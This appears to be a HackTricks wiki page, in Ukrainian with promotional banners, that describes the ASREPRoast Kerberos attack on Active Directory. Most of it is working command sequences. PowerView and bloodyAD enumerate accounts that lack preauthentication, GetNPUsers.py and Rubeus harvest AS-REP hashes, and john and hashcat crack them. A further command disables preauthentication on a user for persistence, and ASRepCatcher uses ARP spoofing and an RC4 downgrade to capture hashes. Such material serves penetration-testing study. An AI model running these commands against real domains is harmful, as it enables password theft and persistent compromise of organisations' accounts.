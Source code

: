 # ASREPRoast

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## ASREPRoast

ASREPRoast - це атака безпеки, яка експлуатує користувачів, які не мають **атрибута, що вимагає попередньої аутентифікації Kerberos**. По суті, ця вразливість дозволяє зловмисникам запитувати аутентифікацію для користувача у Контролера домену (DC) без необхідності знати пароль користувача. DC потім відповідає повідомленням, зашифрованим за допомогою ключа, отриманого з пароля користувача, який зловмисники можуть спробувати зламати офлайн, щоб дізнатися пароль користувача.

Основні вимоги для цієї атаки:

* **Відсутність попередньої аутентифікації Kerberos**: Цільові користувачі не повинні мати цю функцію безпеки увімкненою.
* **З'єднання з Контролером домену (DC)**: Зловмисники повинні мати доступ до DC, щоб надсилати запити та отримувати зашифровані повідомлення.
* **Необліковий доменний акаунт**: Наявність доменного акаунта дозволяє зловмисникам більш ефективно ідентифікувати вразливих користувачів через LDAP-запити. Без такого акаунта зловмисники повинні вгадувати імена користувачів.

#### Перерахування вразливих користувачів (потрібні доменні облікові дані)

{% code title="Using Windows" %}
```bash
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
```
{% endcode %}

{% code title="Використання Linux" %}
```bash
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
```
{% endcode %}

#### Запит AS\_REP повідомлення

{% code title="Використовуючи Linux" %}
```bash
#Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```
{% endcode %}

{% code title="Використання Windows" %}
```bash
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```
{% endcode %}

{% hint style="warning" %}
AS-REP Roasting з Rubeus згенерує 4768 з типом шифрування 0x17 та типом попередньої автентифікації 0.
{% endhint %}

### Ламання
```bash
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt
```
### Постійність

Примусьте **preauth** не вимагати для користувача, де у вас є **GenericAll** дозволи (або дозволи на запис властивостей):

{% code title="Using Windows" %}
```bash
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```
{% endcode %}

{% code title="Використання Linux" %}
```bash
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 add uac -f DONT_REQ_PREAUTH
```
{% endcode %}

## ASREProast без облікових даних

Зловмисник може використовувати позицію "людина посередині", щоб захопити пакети AS-REP під час їх проходження через мережу, не покладаючись на відключення попередньої автентифікації Kerberos. Тому це працює для всіх користувачів у VLAN.\
[ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher) дозволяє нам це зробити. Більше того, інструмент змушує клієнтські робочі станції використовувати RC4, змінюючи переговори Kerberos.
```bash
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```
## References

* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

***

<figure><img src="/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Приєднуйтесь до [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) сервера, щоб спілкуватися з досвідченими хакерами та шукачами вразливостей!

**Hacking Insights**\
Залучайтеся до контенту, який занурюється у захоплення та виклики хакінгу

**Real-Time Hack News**\
Слідкуйте за швидкоплинним світом хакінгу через новини та інсайти в реальному часі

**Latest Announcements**\
Будьте в курсі нових програм винагород за вразливості та важливих оновлень платформ

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) і почніть співпрацювати з провідними хакерами вже сьогодні!

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

